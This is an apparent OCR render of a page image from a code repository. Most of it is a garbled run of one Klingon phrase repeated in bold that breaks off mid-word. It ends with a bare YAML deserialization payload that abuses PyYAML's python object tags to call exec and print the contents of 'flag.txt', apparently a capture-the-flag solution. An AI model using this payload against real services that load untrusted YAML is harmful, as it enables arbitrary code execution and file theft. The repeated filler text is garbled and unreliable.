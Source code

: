 **'oH** **vItlhutlh** **'e'** **vaj** **'oH** **vItlhutlh** **'e'** **vaj** **'oH** **vItlhutlh** **'e'** **vaj** **'oH** **vItlhutlh** **'e'** **vaj** **'oH** **vItlhutlh** **'e'** **vaj** **'oH** **vItlhutlh** **'e'** **vaj** **'oH** **vItlhutlh** **'e'** **vaj** **'oH** **vItlhutlh** **'e'** **vaj** **'oH** **vItlhutlh** **'e'** **vaj** **'oH** **vItlhutlh** **'e'** **vaj** **'oH** **vItlhutlh** **'e'** **vaj** **'oH** **vItlhutlh** **'e'** **vaj** **'oH** **vItlhutlh** **'e'** **vaj** **'oH** **vItlhutlh** **'e'** **vaj** **'oH** **vItlhutlh** **'e'** **vaj** **'oH** **vItlhutlh** **'e'** **vaj** **'oH** **vItlhutlh** **'e'** **vaj** **'oH** **vItlhutlh** **'e'** **vaj** **'oH** **vItlhutlh** **'e'** **vaj** **'oH** **vItlhutlh** **'e'** **vaj** **'oH** **vItlhutlh** **'e'** **vaj** **'oH** **vItlhutlh** **'e'** **vaj** **'oH** **vItlhutlh** **'e'** **vaj** **'oH** **vItlhutlh** **'e'** **vaj** **'oH** **vItlhutlh** **'e'** **vaj** **'oH** **vItlhutlh** **'e'** **vaj** **'oH** **vItlhutlh** **'e'** **vaj** **'oH** **vItlhutlh** **'e'** **vaj** **'oH** **vItlhutlh** **'e'** **vaj** **'oH** **vItlhutlh** **'e'** **vaj** **'oH** **vItlhutlh** **'e'** **v
```yaml
!!python/object/new:str {state: !!python/tuple ['print(exec("print(o"+"pen(\"flag.txt\",\"r\").read())"))', !!python/object/new:Warning {state : {update : !!python/name:exec } }]}
```